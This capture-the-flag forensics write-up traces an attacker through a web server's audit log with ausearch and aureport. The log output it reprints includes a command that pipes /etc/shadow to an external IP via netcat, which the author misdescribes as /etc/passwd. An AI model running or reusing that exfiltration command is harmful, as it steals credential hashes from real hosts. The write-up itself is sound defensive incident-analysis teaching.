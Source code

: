 
# I SEe You - Points: 200

## Challenge
* Category: Miscellaneous
* Points: 200

We think someone has been attacking our web server, can you help us by finding the IP address of the attacker in our logs? audit.log.gz


### Hints
* The flag is the IP address of the attacker without any prefixes or braces around it.
* Audit logs can be read via the ausearch command.

## Solution
### Tools
* [ausearch and aureport](https://zoomadmin.com/HowToInstall/UbuntuPackage/auditd)


There are some good writeups on using `ausearch` and `aureport` to monitor user activity.


My approach was to run each of the `aureport` commands to find an interesting place to get started.


```
$ sudo aureport --help
usage: aureport [options]
	-a,--avc			Avc report
	-au,--auth			Authentication report
	--comm				Commands run report
	-c,--config			Config change report
	-cr,--crypto			Crypto report
	-e,--event			Event report
	-f,--file			File name report
	--failed			only failed events in report
	-h,--host			Remote Host name report
	--help				help
	-i,--interpret			Interpretive mode
	-if,--input <Input File name>	use this file as input
	--input-logs			Use the logs even if stdin is a pipe
	--integrity			Integrity event report
	-l,--login			Login report
	-k,--key			Key report
	-m,--mods			Modification to accounts report
	-ma,--mac			Mandatory Access Control (MAC) report
	-n,--anomaly			aNomaly report
	-nc,--no-config			Don't include config events
	--node <node name>		Only events from a specific node
	-p,--pid			Pid report
	-r,--response			Response to anomaly report
	-s,--syscall			Syscall report
	--success			only success events in report
	--summary			sorted totals for main object in report
	-t,--log			Log time range report
	-te,--end [end date] [end time]	ending date & time for reports
	-tm,--terminal			TerMinal name report
	-ts,--start [start date] [start time]	starting data & time for reports
	--tty				Report about tty keystrokes
	-u,--user			User name report
	-v,--version			Version
	--virt				Virtualization report
	-x,--executable			eXecutable name report
	If no report is given, the summary report will be displayed

```

So I ran through each of the reporting options until I found `getcwd` in the syscall summary report. This is interesting because its almost always one of the first commands an adversary runs once they have access to a host.

```
$ aureport -if audit.log -s --summary
```

From there I pivoted to viewing syscall events with `getcwd`

```
$ ausearch -if audit.log -sc getcwd -i
----
type=PROCTITLE msg=audit(11/19/19 11:30:53.909:1134) : proctitle=autrace /bin/python3 server.py
type=SYSCALL msg=audit(11/19/19 11:30:53.909:1134) : arch=x86_64 syscall=getcwd success=yes exit=17 a0=0x7ffeac0ae740 a1=0x1000 a2=0x1000 a3=0x7ffeac0ae1a0 items=0 ppid=2626 pid=2628 auid=vagrant uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=(none) ses=2 comm=python3 exe=/usr/bin/python3.6 subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=(null)
----
type=PROCTITLE msg=audit(11/19/19 11:30:53.995:2549) : proctitle=autrace /bin/python3 server.py
type=SYSCALL msg=audit(11/19/19 11:30:53.995:2549) : arch=x86_64 syscall=getcwd success=yes exit=17 a0=0xc5dd60 a1=0x400 a2=0xc5dd60 a3=0x7ffeac0b2a60 items=0 ppid=2626 pid=2628 auid=vagrant uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=(none) ses=2 comm=python3 exe=/usr/bin/python3.6 subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=(null)
----
type=PROCTITLE msg=audit(11/19/19 11:30:54.165:4469) : proctitle=autrace /bin/python3 server.py
type=SYSCALL msg=audit(11/19/19 11:30:54.165:4469) : arch=x86_64 syscall=getcwd success=yes exit=17 a0=0xe4b150 a1=0x400 a2=0xe4b150 a3=0x40 items=0 ppid=2626 pid=2628 auid=vagrant uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=(none) ses=2 comm=python3 exe=/usr/bin/python3.6 subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=(null)
----
type=PROCTITLE msg=audit(11/19/19 11:30:54.165:4470) : proctitle=autrace /bin/python3 server.py
type=SYSCALL msg=audit(11/19/19 11:30:54.165:4470) : arch=x86_64 syscall=getcwd success=yes exit=17 a0=0xe4b150 a1=0x400 a2=0xe4b150 a3=0x40 items=0 ppid=2626 pid=2628 auid=vagrant uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=(none) ses=2 comm=python3 exe=/usr/bin/python3.6 subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=(null)
----
type=PROCTITLE msg=audit(11/19/19 11:31:30.007:46406) : proctitle=/bin/python3 server.py
type=SYSCALL msg=audit(11/19/19 11:31:30.007:46406) : arch=x86_64 syscall=getcwd success=yes exit=17 a0=0xd4e740 a1=0x1000 a2=0xd4e740 a3=0x63 items=0 ppid=2628 pid=5403 auid=vagrant uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=(none) ses=2 comm=sh exe=/usr/bin/bash subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=(null)
```

\*singing\* "One of these is not like the others"

So. One of the events is different from the others. Lets examine `pid 5403`

```
$ ausearch -if audit.log -p 5403 -i
...
type=PROCTITLE msg=audit(11/19/19 11:31:30.007:46336) : proctitle=/bin/python3 server.py
type=PATH msg=audit(11/19/19 11:31:30.007:46336) : item=1 name=/lib64/ld-linux-x86-64.so.2 inode=6204 dev=08:01 mode=file,755 ouid=root ogid=root rdev=00:00 obj=system_u:object_r:ld_so_t:s0 objtype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0
type=PATH msg=audit(11/19/19 11:31:30.007:46336) : item=0 name=/bin/sh inode=100737155 dev=08:01 mode=file,755 ouid=root ogid=root rdev=00:00 obj=system_u:object_r:shell_exec_t:s0 objtype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0
type=CWD msg=audit(11/19/19 11:31:30.007:46336) :  cwd=/vagrant/website
type=EXECVE msg=audit(11/19/19 11:31:30.007:46336) : argc=3 a0=/bin/sh a1=-c a2=cat /etc/shadow|nc 44.68.139.241 3333
type=SYSCALL msg=audit(11/19/19 11:31:30.007:46336) : arch=x86_64 syscall=execve success=yes exit=0 a0=0x7f44c0c15870 a1=0x7f44c0b20930 a2=0x7ffeac0bfa60 a3=0x7f44cee4a770 items=2 ppid=2628 pid=5403 auid=vagrant uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=(none) ses=2 comm=sh exe=/usr/bin/bash subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=(null)

```
Awesome. Hey someone cat the `/etc/passwd` file and netcat the contents to the external IP 44.68.139.241. That is definitely malicious.

FLAG = **44.68.139.241**
